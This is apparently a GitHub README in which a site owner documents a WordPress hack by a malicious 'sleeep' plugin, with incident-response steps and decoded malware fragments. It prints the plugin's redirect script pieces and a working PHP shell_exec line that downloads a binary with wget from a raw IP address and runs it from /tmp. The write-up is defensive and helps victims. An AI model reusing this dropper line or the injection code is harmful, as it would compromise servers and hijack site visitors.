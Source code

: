 # sleeep Hack Wordpress
I noticed yesterday that my friend's Wordpress was hacked. At least a wp-plugin called **sleeep** was installed and redirects to scam sites like transandfiestas were set. But before the visitors were hijacked, I saw an error similar to: `wp-sleeeps/wp-sleeeps.php on line 26`

I could not find a lot of information about this incident, that's why I just write down what I found out so far and it might help others. 

Discussion started here:
https://github.com/kn1g/sleeepHackWordpress/issues/1

Information to a similar attack seems to be found here:
https://txnkaro.com/blog/how-to-clean-js-donatelloflowfirstly-ga-virus-from-wordpress-site/

## Incident response

In general do the following:

1. Prevent further damage and take the page offline
1. Clean your files
1. Clean your database
1. Contact the hoster to get rid of eventually running malware on the host system
1. Change ALL passwords (FTP,Database, Wordpress and any other) to a new secure password

What I did explicitly (so far):

1. Bring the site down! Prevent that visitors are hijacked from your website! I simply logged into the hoster account and changed the DB (Data Base) password as this needs to be done anyway. The site will then be unavailable because of an DB error from Wordpress. But you can also use a password protection etc.
1. Download your database dump 
1. Check the `siteurl` and `home` values in your `_option` table 
1. Search for these values if they are not your website domain. In my case it was something with `transandfiestas`. I found a couple of blog entires with js script insertions. 
1. Delete all insertions. In my case I just searched for the `<script ... src='https://transandfiestas...</script>'` part and deleted it by replacing it with nothing.
1. Change the `siteurl` and `home` values back to your website url
1. Log into yout FTP account account and delete the sleep plugin in `wp-content/plugins/` (or similar. I always confuse the fildernames)

That is all I did until now. I need to check tomorrow if I need to do more. It is just too late now. Let me know if you know about more broken stuff.

## Please read

**THIS MIGHT NOT BE ENOGUH**!!! Please read:
https://github.com/kn1g/sleeepHackWordpress/issues/1

As pointed out in the discussion, there might be malware still running in memory on the infected host machine! You might need to contact your provider.
At least I did.

## What the attack does

It seems like it installs a malicious plugin (sleeep), it infects the database, it puts malicious files on your server and downloads a code which runs in memory on the host machine.


I didn't have time to write it up properly. Will do. Promised. I also didn't clean up properly yet.


## Random stuff

I decoded parts of the malicious files to see what they do. Which is this shit:
```
function my_simple_js() {
echo '<script type="text/javascript" src="'.chr(104).
```

These were the `int` in the malicious plugin file and the malicious `lte_` file

```
104 116 116 112 115 58 47 47 102 116 112 46 108 111 118 101 103 114 101 101 110 112 101 110 99 105 108 115 46 103 97 47 68 67 72 70 98 104 99 100 63 102 114 109 53 102 101 52 98 99 98 57 98 49 99 57 98 61 115 99 114 105 112 116 53 102 101 52 98 99 98 57 98 49 99 57 99 38 95 99 105 100 61 56 52 49 50 101 56 56 48 45 100 49 100 101 45 57 99 57 98 45 101 99 52 100 45 98 102 54 49 48 54 57 50 56 101 56 97
```
which is:
```
https://ftp.lovegreenpencils.ga/DCHFbhcd?frm5fe4bcb9b1c9b=script5fe4bcb9b1c9c&_cid=8412e880-d1de-9c9b-ec4d-bf6106928e8a
```
```
54 52 95 100 101 99 
```
is simply
```
64_dec

```
```
104 116 116 112 115 58 47 47 102 116 112 46 108 111 118 101 103 114 101 101 110 112 101 110 99 105 108 115 46 103 97 47 109 119 114 120 118 122 63 115 101 95 114 101 102 101 114 114 101 114 61
```
which decodes to:
```
https://ftp.lovegreenpencils.ga/mwrxvz?se_referrer=
```
```
103 101 116 95 99 111 110 116 101 110 116 115
```
is:
```
get_contents
```

```
110 117 108 108 38 115 111 117 114 99 101 61 104 116 116 112 58 47 47
```
equals
```
null&source=http://
```
```
112 97 103 101 110 111 116 102 111 117 117 117 110 100 
```
sounds found but is
```
pagenotfouuund
```

The `lte_` file has the malicious script which might bring malware into your host machine's memory which is:

```
<?php $a = 'ulimit -n 234234;cd /tmp;mkdir oyuiuyio2;chmod 777 oyuiuyio2;cd oyuiuyio2;rm -f oyuiuyio2;wget -O oyuiuyio2 http://95.181.172.35/7767/oyuiuyio;chmod 777 oyuiuyio2;./oyuiuyio2 2>&1 > /dev/null';shell_exec($a);
```



